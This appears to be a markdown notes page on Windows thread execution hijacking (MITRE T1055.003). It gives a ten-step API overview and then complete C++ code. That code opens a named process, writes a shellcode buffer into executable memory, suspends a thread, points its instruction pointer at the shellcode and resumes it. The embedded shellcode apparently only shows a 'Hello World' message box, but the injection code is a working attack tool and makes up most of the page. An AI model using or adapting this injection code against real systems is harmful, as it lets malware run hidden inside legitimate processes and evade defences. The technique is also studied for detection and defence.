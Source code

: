 # Thread execution hijacking

This is very similar to [Process Hollowing](hollowing.md) but targets an existing process rather than creating a process in a 
suspended state.

## Overview

1. Locate and open a target process to control ([OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)).
2. Allocate memory region for malicious code ([VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)).
3. Write malicious code to allocated memory ([WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)).
4. Identify the thread ID of the target thread to hijack ([CreateToolhelp32Snapshot()](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot), [Process32First()](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first), and [Process32Next()](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next), to loop through a snapshot of a process and extend capabilities to enumerate process information).
5. Open the target thread ([OpenThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthread)).
6. Suspend the target thread ([SuspendThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread)).
7. Obtain the thread context ([GetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getthreadcontext)).
8. Update the instruction pointer to the malicious code.
9. Rewrite the target thread context ([SetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext)).
10. Resume the hijacked thread ([ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)).

## C++ code

```text
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <iomanip>
#include <Shlwapi.h>
#include <thread>
#include <stdio.h>
#pragma comment( lib, "shlwapi.lib")

#define print(format, ...) fprintf (stderr, format, __VA_ARGS__)

DWORD GetPID(const char* pn)
{
    DWORD procId = 0;
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (hSnap != INVALID_HANDLE_VALUE)
    {
        PROCESSENTRY32 pE;
        pE.dwSize = sizeof(pE);

        if (Process32First(hSnap, &pE))
        {
            if (!pE.th32ProcessID)
                Process32Next(hSnap, &pE);
            do
            {
                if (!_stricmp(pE.szExeFile, pn))
                {
                    procId = pE.th32ProcessID;
                    print("[+] Process %s found : 0x%lX\n", pE.szExeFile, pE.th32ProcessID);
                    break;
                }
            } while (Process32Next(hSnap, &pE));
        }
    }
    CloseHandle(hSnap);
    return procId;
}

DWORD EnThread(DWORD procID)
{
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    DWORD ThID;
    if (procID == 0x0)
        EXIT_FAILURE;
    if (hSnap != INVALID_HANDLE_VALUE)
    {
        THREADENTRY32 pE;
        pE.dwSize = sizeof(pE);

        if (Thread32First(hSnap, &pE))
        {
            do
            {
                if (procID == pE.th32OwnerProcessID)
                {
                    ThID = pE.th32ThreadID;
                    print("[+] Thread found : 0x%lX\n", pE.th32OwnerProcessID);
                    break;
                }
            } while (Thread32Next(hSnap, &pE));
        }
    }
    CloseHandle(hSnap);
    return(ThID);
}

int main(void)
{
    unsigned char ExecBuffer[] =
        "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b\x49\x1c"
        "\x8b\x59\x08\x8b\x41\x20\x8b\x09\x80\x78\x0c\x33"
        "\x75\xf2\x8b\xeb\x03\x6d\x3c\x8b\x6d\x78\x03\xeb"
        "\x8b\x45\x20\x03\xc3\x33\xd2\x8b\x34\x90\x03\xf3"
        "\x42\x81\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
        "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03\xf3\x66"
        "\x8b\x14\x56\x8b\x75\x1c\x03\xf3\x8b\x74\x96\xfc"
        "\x03\xf3\x33\xff\x57\x68\x61\x72\x79\x41\x68\x4c"
        "\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd6"
        "\x33\xc9\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
        "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01\xfe\x4c"
        "\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73"
        "\x54\x50\xff\xd6\x57\x68\x72\x6c\x64\x21\x68\x6f"
        "\x20\x57\x6f\x68\x48\x65\x6c\x6c\x8b\xcc\x57\x57"
        "\x51\x57\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
        "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74"
        "\x54\x53\xff\xd6\x57\xff\xd0";
        DWORD pr;
        CONTEXT context;
        context.ContextFlags = CONTEXT_FULL;
        HANDLE htd,proc = OpenProcess(PROCESS_ALL_ACCESS, 0, pr = GetPID("JEEZ.exe"));
        if (!proc)
        {
            print("[!] Process Not found (0x%lX)\n", GetLastError());
            return -1;
        }
        print("[+] Process Opened Successfully :0x%lX\n", GetLastError());
        void* base = VirtualAllocEx(proc, NULL, sizeof(ExecBuffer), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        if (!base)
        {
            CloseHandle(proc);
            return -1;
        }
        if (!WriteProcessMemory(proc, base, ExecBuffer, sizeof(ExecBuffer), 0))
        {
            CloseHandle(proc);
            return -1;
        }
        print("[+] shellcode Base address : 0x%08x\n", base);
        htd = OpenThread(THREAD_ALL_ACCESS, 0, EnThread(pr));
        if (!htd)
        {
            CloseHandle(proc);
            return -1;
        }
        if (SuspendThread(htd) == (DWORD)-1)
        {
            CloseHandle(proc);
            CloseHandle(htd);
            return -1;
        }
        if (!GetThreadContext(htd, &context))
        {
            ResumeThread(htd);
            CloseHandle(proc);
            CloseHandle(htd);
            return -1;
        }
        print("[+] EIP hold: 0x%08x\n", context.Eip); 
        context.Eip = (DWORD)base;
        if (!SetThreadContext(htd, &context))
        {
            ResumeThread(htd);
            CloseHandle(proc);
            CloseHandle(htd);
            return -1;
        }
       
        print("[+] EIP Hijacked succesfully : 0x%08x\n", context.Eip);
        if (ResumeThread(htd) == (DWORD)-0b01)
        {
            CloseHandle(proc);
            CloseHandle(htd);
            return -1;
        }
        print("[+] thread Resumed succesfully : 0x%08x\n", context.Eip);
        if ((pr = WaitForSingleObject(htd, INFINITE) == 0x00000080L) || (pr == 0x00000000L) || (pr == 0x00000102L) || (pr == (DWORD)0xFFFFFFFF))
        {
            CloseHandle(proc);
            CloseHandle(htd);
            return -1;
        }
        print("[+] Thread finished Succesfully 0x%lX\n", htd);
        CloseHandle(proc);
        CloseHandle(htd);
        __asm
        {
            xor eax, eax
        }
}
```

## Resources

* [MITRE: Thread execution hijacking](https://attack.mitre.org/techniques/T1055/003/)
